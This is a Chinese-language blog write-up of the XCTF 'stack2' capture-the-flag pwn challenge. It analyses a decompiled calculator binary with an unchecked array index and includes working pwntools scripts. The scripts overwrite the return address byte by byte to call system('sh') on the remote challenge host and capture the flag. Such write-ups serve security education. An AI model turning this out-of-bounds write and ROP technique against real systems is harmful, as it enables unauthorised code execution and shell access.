


<!--yml
category: 未分类
date: 2022-04-26 14:40:03
-->

# stack2 [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列15_3riC5r的博客-CSDN博客

> 来源：[http://blog.csdn.net/fastergohome/article/details/103669719](http://blog.csdn.net/fastergohome/article/details/103669719)

题目地址：[stack2](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4695&page=1)

这是高手进阶区的第四题了，速度挺快啊，朋友！加油！

废话不说，看看题目先



没有什么特别的内容，那就看看保护机制

```
root@mypwn:/ctf/work/python/stack2# checksec fcca8ceb507544d1bd9c4a7925907a1d 
[*] '/ctf/work/python/stack2/fcca8ceb507544d1bd9c4a7925907a1d'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开了Canary，其他就没什么了，估计是需要绕过Canary做栈溢出。

先打开ida做下反编译

可以看到，没什么疑问，就是两个函数main和hackhere。

我这里已经把main函数做好了变量重命名：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int nIndexAdd; // eax
  unsigned int nTemp; // [esp+18h] [ebp-90h]
  unsigned int nChoice; // [esp+1Ch] [ebp-8Ch]
  int nNumber; // [esp+20h] [ebp-88h]
  unsigned int nCountNumber; // [esp+24h] [ebp-84h]
  int nSum; // [esp+28h] [ebp-80h]
  unsigned int i; // [esp+2Ch] [ebp-7Ch]
  unsigned int k; // [esp+30h] [ebp-78h]
  unsigned int l; // [esp+34h] [ebp-74h]
  char arrNumbers[100]; // [esp+38h] [ebp-70h]
  unsigned int v14; // [esp+9Ch] [ebp-Ch]

  v14 = __readgsdword(0x14u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  nSum = 0;
  puts("***********************************************************");
  puts("*                      An easy calc                       *");
  puts("*Give me your numbers and I will return to you an average *");
  puts("*(0 <= x < 256)                                           *");
  puts("***********************************************************");
  puts("How many numbers you have:");
  __isoc99_scanf("%d", &nTemp);
  puts("Give me your numbers");
  for ( i = 0; i < nTemp && (signed int)i <= 99; ++i )
  {
    __isoc99_scanf("%d", &nNumber);
    arrNumbers[i] = nNumber;
  }
  for ( nCountNumber = nTemp; ; printf("average is %.2lf\n", (double)((long double)nSum / (double)nCountNumber)) )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          puts("1\. show numbers\n2\. add number\n3\. change number\n4\. get average\n5\. exit");
          __isoc99_scanf("%d", &nChoice);
          if ( nChoice != 2 )
            break;
          puts("Give me your number");
          __isoc99_scanf("%d", &nNumber);
          if ( nCountNumber <= 0x63 )
          {
            nIndexAdd = nCountNumber++;
            arrNumbers[nIndexAdd] = nNumber;
          }
        }
        if ( nChoice > 2 )
          break;
        if ( nChoice != 1 )
          return 0;
        puts("id\t\tnumber");
        for ( k = 0; k < nCountNumber; ++k )
          printf("%d\t\t%d\n", k, arrNumbers[k]);
      }
      if ( nChoice != 3 )
        break;
      puts("which number to change:");
      __isoc99_scanf("%d", &nTemp);
      puts("new number:");
      __isoc99_scanf("%d", &nNumber);
      arrNumbers[nTemp] = nNumber;
    }
    if ( nChoice != 4 )
      break;
    nSum = 0;
    for ( l = 0; l < nCountNumber; ++l )
      nSum += arrNumbers[l];
  }
  return 0;
}
```

hackhere函数的汇编及c语言代码如下：

```
int hackhere()
{
  return system("/bin/bash");
}

.text:0804859B                 public hackhere
.text:0804859B hackhere        proc near
.text:0804859B
.text:0804859B var_C           = dword ptr -0Ch
.text:0804859B
.text:0804859B ; __unwind {
.text:0804859B                 push    ebp
.text:0804859C                 mov     ebp, esp
.text:0804859E                 sub     esp, 18h
.text:080485A1                 mov     eax, large gs:14h
.text:080485A7                 mov     [ebp+var_C], eax
.text:080485AA                 xor     eax, eax
.text:080485AC                 sub     esp, 0Ch
.text:080485AF                 push    offset command  ; "/bin/bash"
.text:080485B4                 call    _system
.text:080485B9                 add     esp, 10h
.text:080485BC                 nop
.text:080485BD                 mov     edx, [ebp+var_C]
.text:080485C0                 xor     edx, large gs:14h
.text:080485C7                 jz      short locret_80485CE
.text:080485C9                 call    ___stack_chk_fail
.text:080485CE ; ---------------------------------------------------------------------------
.text:080485CE
.text:080485CE locret_80485CE:                         ; CODE XREF: hackhere+2C↑j
.text:080485CE                 leave
.text:080485CF                 retn
.text:080485CF ; } // starts at 804859B
.text:080485CF hackhere        endp
```

这又是一个考c语言基础知识的题目，中间那一大块的多重循环，其实就是一个switch，我把调整之后的代码给大家：

```
 while(true)
  {
    puts("1\. show numbers\n2\. add number\n3\. change number\n4\. get average\n5\. exit");
    __isoc99_scanf("%d", &nChoice);
    switch(nChoice)
    {
      case 1:
        puts("id\t\tnumber");
        for ( k = 0; k < nCountNumber; ++k )
          printf("%d\t\t%d\n", k, arrNumbers[k]);
        break;
      case 2:
        puts("Give me your number");
        __isoc99_scanf("%d", &nNumber);
        if ( nCountNumber <= 0x63 )
        {
          nIndexAdd = nCountNumber++;
          arrNumbers[nIndexAdd] = nNumber;
        }
        break;
      case 3:
        puts("which number to change:");
        __isoc99_scanf("%d", &nTemp);
        puts("new number:");
        __isoc99_scanf("%d", &nNumber);
        arrNumbers[nTemp] = nNumber;
        break;
      case 4:
        nSum = 0;
        for ( l = 0; l < nCountNumber; ++l )
          nSum += arrNumbers[l];
        printf("average is %.2lf\n", (double)((long double)nSum / (double)nCountNumber))
        break;
      case 5:
      default:
        return 0;
    }
  }
```

现在再来看的话，溢出点就很明显了

```
 case 3:
        puts("which number to change:");
        __isoc99_scanf("%d", &nTemp);
        puts("new number:");
        __isoc99_scanf("%d", &nNumber);
        arrNumbers[nTemp] = nNumber;
        break;
```

这里没有做数组索引的边界检查，我们可以进行任意地址的覆盖，所以我们只要把栈底的eip覆盖成hackhere的地址就可以了。

先看下地址hackhere = 0x0804859B，在内存中的表现形式如下：

```
[DEBUG] Sent 0x5 bytes:
    00000000  9b 85 04 08  0a                                     │····│·│
    00000005
```

再看下arrNumbers的定义

```
char arrNumbers[100]; // [esp+38h] [ebp-70h]
```

栈底eip的相对arrNumbers偏移是0x84，这个偏移地址不是0x70+4，可以用IDA去跟踪一下就可以看到ret指令断点的时候的栈地址，具体的调试过程，需要自行练习。

确定了上面的信息之后，我们编写python脚本如下：

```
#coding:utf8

from pwn import *
# context.log_level = 'debug'

process_name = './fcca8ceb507544d1bd9c4a7925907a1d'
# p = process(process_name)
p = remote('111.198.29.45', 30172)

hackhere = [0x9b, 0x85, 0x04, 0x08]  #0x0804859B
write_offset = 0x84

def change_number(offset, value):
	p.sendlineafter('5\. exit', '3')
	p.sendlineafter('which number to change:', str(offset))
	p.sendlineafter('new number:', str(value))

p.sendlineafter('How many numbers you have:', '1')
p.sendlineafter('Give me your numbers', '1')
for i in range(4):
	change_number(write_offset+i, hackhere[i])

p.sendlineafter('5\. exit', '5')

p.interactive()
```

执行之后情况如下：

```
root@mypwn:/ctf/work/python/stack2# python stack2.py 
[+] Opening connection to 111.198.29.45 on port 30172: Done
[*] Switching to interactive mode

sh: 1: /bin/bash: not found
[*] Got EOF while reading in interactive
$ 
```

确实已经执行到了hackhere函数，但是发现没有bash程序。我们可以看到/bin/bash的最后两位是sh，所以可以直接计算出sh的偏移地址，再加上程序提供的system函数地址，重新编写python脚本如下：

```
#coding:utf8

from pwn import *
# context.log_level = 'debug'

process_name = './fcca8ceb507544d1bd9c4a7925907a1d'
# p = process(process_name)
p = remote('111.198.29.45', 30172)

hackhere = [0x9b, 0x85, 0x04, 0x08]  #0x0804859B
write_offset = 0x84
system_addr = [0x50, 0x84, 0x04, 0x08] # 0x08048450
sh_addr = [0x87, 0x89, 0x04, 0x08]  # 0x08048987

def change_number(offset, value):
	p.sendlineafter('5\. exit', '3')
	p.sendlineafter('which number to change:', str(offset))
	p.sendlineafter('new number:', str(value))

p.sendlineafter('How many numbers you have:', '1')
p.sendlineafter('Give me your numbers', '1')
for i in range(4):
	change_number(write_offset+i, system_addr[i])

write_offset += 8
for i in range(4):
	change_number(write_offset+i, sh_addr[i])

p.sendlineafter('5\. exit', '5')

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/stack2# python stack2.py 
[+] Opening connection to 111.198.29.45 on port 30172: Done
[*] Switching to interactive mode

$ cat flag
cyberpeace{e1be7c67349462a84aa2e446e83b7eb1}
$ 
```

执行成功，挺有意思的一道题目。

本题主要考的知识点是数组越界、canary开启的情况下如何调试出栈底位置、简单rop构造。